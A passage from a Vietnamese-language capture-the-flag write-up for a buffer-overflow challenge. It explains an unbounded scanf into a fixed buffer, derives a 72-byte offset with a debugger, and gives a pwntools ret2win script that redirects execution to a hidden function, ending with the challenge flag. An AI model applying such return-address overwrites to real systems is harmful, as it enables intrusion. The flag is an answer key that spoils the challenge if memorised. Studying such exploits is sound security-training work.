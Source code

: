 ```c
        slow_type("\e[1;94mLocked behind a PIN, you attempt to find a way to break into the cellphone, despite only having 5 tries.\e[0m\n\n");
}


void init() {
        setbuf(stdin, 0);
        setbuf(stdout, 0);
        retrieve_pin();
        printf("\e[2J\e[H");
}

int main() {
        init();
        banner();
        login();
}
```
- Kiểm tra các trạng thái bảo vệ được bật
![image](https://hackmd.io/_uploads/Byo9z6iMC.png)
- Tiếp theo nhìn vào code ta có thể thấy được lỗi nằm ở hàm ```scanf("%s", attempt);``` khi nhận đầu vào không được giới hạn trong khi mảng ```attempt``` được giới hạn ```0x30 byte``` nên dẫn đến lỗi ```Buffer Overflow``` và ```canary``` không được bật nên ta có thể khai thác lỗi này
- Tương tự challenge ```Baby Goods``` ta cũng tìm địa chỉ stack của ```attempt``` và của địa chỉ trả về hàm ```login()``` để tìm ofset, sau đó overwrite địa của hàm ```view_message()```
- Đặt breakpoint tại sau lệnh gọi hàm ```scanf``` và lệnh ```ret```  trong hàm ```login()``` để tìm địa chỉ của chúng trên stack
![image](https://hackmd.io/_uploads/SJJ8VTifC.png)
Địa chỉ ```attempt``` là ```0x00007fffffffdff0``` 
![image](https://hackmd.io/_uploads/SJCWBajzA.png)
Địa chỉ trả về trên stack là ```0x00007fffffffe038```
- Sau đó tìm ofset ```0x00007fffffffe038 - 0x00007fffffffdff0 = 72 byte```
- Tương tự như challenge trước ta viết script và khai thác, nhưng không thể vì đã gặp một lỗi. Theo tìm hiểu thì lỗi này vì ngay địa chỉ thực thi của stack không chia hết cho 16 nên ta cần phải pading cho địa chỉ này một địa chỉ khác và sau đó là địa chỉ trả về của hàm ```view_message()```. Ý tưởng ở đây là thêm vào địa chỉ lệnh ```ret``` của hàm bất kì để sau đó có thể nhày đến địa chỉ hàm ```view_message()```
### Script
```python!
from pwn import *

view_message_address =  0x40138e

p = remote('challs.nusgreyhats.org', 30211)
#p = process('./chall')

payload = b'a'*72
payload += p64(0x401564)
payload += p64(view_message_address)

p.sendlineafter('PIN: ',payload)

p.interactive()
```
> ### *grey{g00d_w4rmup_for_p4rt_2_hehe}*